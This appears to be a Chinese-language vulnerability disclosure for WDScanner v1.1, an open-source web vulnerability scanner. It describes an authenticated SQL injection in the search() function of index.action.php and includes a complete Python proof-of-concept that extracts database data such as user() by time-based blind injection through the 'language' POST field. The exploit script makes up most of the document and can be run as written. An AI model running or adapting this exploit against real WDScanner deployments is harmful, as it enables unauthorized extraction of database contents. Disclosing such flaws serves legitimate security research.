

# WDScanner的sql注入漏洞

WDScannerv1.1存在sql注入漏洞，攻击者在获得账号的情况下可以通过时间盲注获取数据库数据。

## 项目地址github

**[WDScanner](https://github.com/TideSec/WDScanner)**

### 0x01 产品简介

随着互联网各种安全漏洞愈演愈烈，JAVA反序列化漏洞、STRUTS命令执行漏洞、ImageMagick命令执行漏洞等高危漏洞频繁爆发。在这种情况下，为了能在漏洞爆发后快速形成漏洞检测能力，同时能对网站或主机进行全面快速的安全检测，开发了一套简单易用的分布式web漏洞检测系统WDScanner。

### 0x02 漏洞概述

WDScanner的php后端中的index.action.php中search（）函数接受用户参数未经过滤直接拼接在sql语句中，导致时间盲注



在用户登陆的情况下访问index.php?m=search&c=search并传入post参数即可触发漏洞

### 0x03 影响范围

WDScanner全版本

### 0x04 exp

```python
#! /usr/bin/env/python
# -*-coding:utf-8-*-
import requests
from bs4 import BeautifulSoup
import time

chars = r'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ@;\/:.'  # 正则

headers = {
    'Host': '******',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://******',
    'Connection': 'close',
    'Referer': 'http://******/?m=index',
    'Cookie': 'PHPSESSID=kjms59jjsmfi51kapfv4q2juv0',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1'
}


# time blind sql injection
def time_blind(target):
    url = "http://******/?m=search&c=search"
    data = {
        'title': 'a',
        'url': 'a',
        'customer': '',
        'delay': '',
        'os': 'a',
        'port': 'a',
        'middleware': 'a',
        'cms': 'a',
        'language': "a%' and if(substr({},{})='{}',sleep(5), 1)#"
    }
    count = 1
    result = ''
    while (True):
        result_tmp = result
        for char in chars:
            start = time.time()
            # data['language']=data['language'].format(target,count,char)
            data['language'] = f"a%' and if(substr({target},{count},1)='{char}',sleep(5),1)#"
            # data['language'] = f"a%' and if(left(user(),1)='r', sleep(5), 1)#"
            #a%' and if(left(user(),1)='r', sleep(5), 1)#
            print('trying....{}'.format(char))
            print(data['language'])
            response = requests.post(url,data=data,headers=headers)
            if time.time() - start >= 5:
                result += char
                print(result + '......')
                break
        # 判断是否结束
        if result_tmp == result:  # 最后一次遍历所有结果返回值均为小于5s，故result没有变，可作为出头条件
            print(u'脚本结束(结果不区分大小写)')
            print(result)
            break
        count = count + 1


if __name__ == '__main__':
    time_blind('user()')#时间盲注
```

